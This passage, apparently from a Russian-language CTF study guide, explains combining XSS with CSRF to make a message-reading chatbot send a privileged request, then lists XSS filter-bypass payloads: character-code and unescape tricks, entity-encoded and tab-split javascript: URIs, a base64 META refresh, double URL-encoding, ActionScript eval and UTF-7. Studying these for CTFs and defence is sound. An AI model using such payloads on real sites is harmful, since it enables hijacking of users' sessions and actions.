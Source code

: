 __CSRF+XSS__  
Опять же вкратце - выполняет за пользователя действия, которые пользователь врят ли бы выполнил в здравом уме (например сделать администратором кого-то).  
Тут кроме XSS, еще и требуется CSRF уязвимость - про нее почитать можете у нас в другом разделе.

Опять пример:
```
Есть чатобот (таких часто в вк встретишь) - который читает все сообщения.
Читает он их как обыкновенный человек - открывает в браузере, поддерживающем javascript.  
Нужно у него получить флаг, который он может отправить только при post запросе при, например, нажатии на какую-либо кнопку.
```
Решение:
```
Раскручиваем XSS
Пишем XSS скрипт, отсылающий нужный нам запрос от лица жертвы.
Получаем флаг и ништяки=)
```

## Частные случаи обхода фильтров
Вынес в отдельную часть тк xss по большей части от обхода фильтрации и зависит(она и является обходом фильтров:) (примеры собрал с нескольких сайтов - в разделе статей их напишу)
```
alert(String.fromCharCode(120,97,107,110,101,116,46,114,117))
```
```
alert(unescape(/%78%61%6b%6e%65%74%2e%72%75/.source))
```
```
<IMG SRC=&!#106;&!#97;&!#118;&!#97;&!#115;&!#99;&!#114;&!#105;&!#112;&!#116;&!#58;&!#97;&!#108;&!#101;&!#114;&!#116;&!#40;&!#39;&!#120;&!#97;&!#107;&!#110;&!#101;&!#116;&!#46;&!#114;&!#117;&!#39;&!#41;>
```
```
<IMG SRC=&!#0000106a&!#0000118&!#0000097&!#0000115&!#0000099&!#0000114&!#0000105&!#0000112&!#0000116&!#0000058&!#0000097&!#0000108&!#0000101&!#0000114&!#0000116&!#0000040&!#0000039&!#0000120&!#000097&!#0000107&!#0000110&!#0000101&!#0000116&!#0000046&!#0000114&!#0000117&!#0000039&!#0000041>
```
```
<IMG SRC="Ja	va	sc	ri	pt	:	al	er	t(	'me	ssa	ge'	)">
```
```
<META HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html;base64,PHNjcmlwdD5hbGVydCgneGFrbmV0LnJ1Jyk8L3NjcmlwdD4=">
```
Обход путем двойного urlencode (bWAPP):
```
%3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%29%3c%2f%73%63%72%69%70%74%3e
```
"В качестве обфускации вектора, можно использовать ActionScript через Flash, путём использования переменных и присваивания им значений, которые являются частями xss-кода."
```
a="get";
b="URL(\"";
c="javascript:";
d="alert('message');\")";
eval(a+b+c+d);
```
"Использование UTF-7.Заключается данный способ в изменении кодировки символов xss-вектора на UTF-7. Это может сработать в тех случаях, когда в странице не указывается кодировка, и атакующий может заставить страницу испольвоть UTF-7, тем самым, обойти фильтрацию, изменив некоторые из символов UTF-8 на UTF-7."
```
<HEAD><META HTTP-EQUIV="CONTENT-TYPE" CONTENT="text/html; charset=UTF-7"></HEAD>+ADw-SCRIPT+AD4-alert('message');+ADw-/SCRIPT+AD4-
```